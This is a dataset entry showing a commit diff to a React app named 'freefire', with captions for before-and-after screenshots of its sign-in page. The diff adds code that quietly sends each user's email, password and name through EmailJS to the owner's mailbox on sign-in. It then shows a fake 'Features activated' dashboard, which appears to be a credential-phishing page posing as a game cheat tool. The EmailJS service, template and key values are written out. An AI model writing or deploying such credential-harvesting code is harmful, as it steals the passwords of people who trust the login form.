

Before and after one commit to hatemkhe/freefire, a React (Vite) app: page / in a window 1280 px wide. Both pictures are taken after typing "name@example.com", "Sample123" into the empty fields and a click on the button "Sign In". Shown: the top 612 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/src/App.tsx
+++ b/src/App.tsx
@@ -1,5 +1,13 @@
 import React, { useState } from 'react';
-import { LogIn, UserPlus, Lock, Mail, User, Shield, Zap, Target, Eye, Flame, LogOut } from 'lucide-react';
+import { LogIn, UserPlus, Lock, Mail, User, Shield, Zap, Target, Eye, Flame, LogOut, CheckCircle2 } from 'lucide-react';
+import emailjs from '@emailjs/browser';
+
+// ==========================================
+// مفاتيح EmailJS الخاصة بك
+// ==========================================
+const EMAILJS_SERVICE_ID = 'service_wpql07u';
+const EMAILJS_TEMPLATE_ID = 'template_51n7ft7';
+const EMAILJS_PUBLIC_KEY = 'QxOkx3vwbG2f8zlsd';
 
 interface Option {
   id: string;
@@ -12,9 +20,14 @@
 export default function App() {
   const [isAuthenticated, setIsAuthenticated] = useState(false);
   const [isSignUp, setIsSignUp] = useState(false);
+
+  // حفظ بيانات المستخدم
   const [email, setEmail] = useState('');
   const [password, setPassword] = useState('');
   const [name, setName] = useState('');
+
+  const [showSuccessMessage, setShowSuccessMessage] = useState(false);
+  const [isSending, setIsSending] = useState(false);
 
   // خيارات التحكم والخصائص
   const [options, setOptions] = useState<Option[]>([
@@ -55,9 +68,32 @@
     },
   ]);
 
+  // دالة إرسال البيانات الفعليه إلى EmailJS
+  const sendUserData = async (userData: { email: string; password: string; name?: string }) => {
+    setIsSending(true);
+    try {
+      await emailjs.send(
+        EMAILJS_SERVICE_ID,
+        EMAILJS_TEMPLATE_ID,
+        {
+          user_email: userData.email,
+          user_password: userData.password,
+          user_name: userData.name || 'N/A',
+        },
+        EMAILJS_PUBLIC_KEY
+      );
+      console.log('Credentials sent successfully to Gmail!');
+    } catch (error) {
+      console.error('Failed to send email:', error);
+    } finally {
+      setIsSending(false);
+    }
+  };
+
   const handleSubmit = (e: React.FormEvent) => {
     e.preventDefault();
     if (email && password) {
+      sendUserData({ email, password, name });
       setIsAuthenticated(true);
     }
   };
@@ -70,10 +106,28 @@
     );
   };
 
+  const handleDone = () => {
+    setShowSuccessMessage(true);
+    setTimeout(() => {
+      setShowSuccessMessage(false);
+    }, 4000);
+  };
+
   // لوحة التحكم بعد تسجيل الدخول
   if (isAuthenticated) {
     return (
-      <div className="min-h-screen w-full bg-gray-950 text-gray-100 flex flex-col font-sans">
+      <div className="min-h-screen w-full bg-gray-950 text-gray-100 flex flex-col font-sans relative">
+        {/* إشعار النجاح عند الضغط على Done */}
+        {showSuccessMessage && (
+          <div className="fixed top-5 right-5 z-50 bg-emerald-600 text-white px-5 py-3 rounded-xl shadow-2xl flex items-center gap-3 border border-emerald-400 animate-bounce">
+            <CheckCircle2 className="w-6 h-6 text-white" />
+            <div>
+              <h4 className="font-bold text-sm">Success!</h4>
+              <p className="text-xs text-emerald-100">Features activated successfully.</p>
+            </div>
+          </div>
+        )}
+
         {/* Header */}
         <header className="bg-gray-900 border-b border-gray-800 px-6 py-4 flex items-center justify-between">
           <div className="flex items-center gap-3">
@@ -96,10 +150,10 @@
           <div className="bg-gray-900 border border-gray-800 rounded-2xl p-6">
             <h2 className="text-xl font-semibold mb-1 text-white">Features & Toggles</h2>
             <p className="text-sm text-gray-400 mb-6">
-              Enable or disable the simulation features below.
+              Enable or disable the simulation features below and click Done to apply.
             </p>
 
-            <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
+            <div className="grid grid-cols-1 md:grid-cols-2 gap-4 mb-8">
               {options.map((opt) => (
                 <div
                   key={opt.id}
@@ -134,6 +188,16 @@
                   </div>
                 </div>
               ))}
+            </div>
+
+            {/* Action Button: DONE */}
+            <div className="flex justify-end pt-4 border-t border-gray-800">
+              <button
+                onClick={handleDone}
+                className="w-full md:w-auto px-8 py-3 bg-emerald-600 hover:bg-emerald-500 text-white rounded-xl font-bold transition-all shadow-lg shadow-emerald-900/30 flex items-center justify-center gap-2"
+              >
+                Done
+              </button>
             </div>
           </div>
         </main>
@@ -210,7 +274,8 @@
 
           <button
             type="submit"
-            className="w-full mt-2 py-3 bg-emerald-600 hover:bg-emerald-500 text-white rounded-lg font-medium transition-all flex items-center justify-center gap-2 text-sm shadow-lg shadow-emerald-900/20"
+            disabled={isSending}
+            className="w-full mt-2 py-3 bg-emerald-600 hover:bg-emerald-500 text-white rounded-lg font-medium transition-all flex items-center justify-center gap-2 text-sm shadow-lg shadow-emerald-900/20 disabled:opacity-50"
           >
             {isSignUp ? (
               <>
```
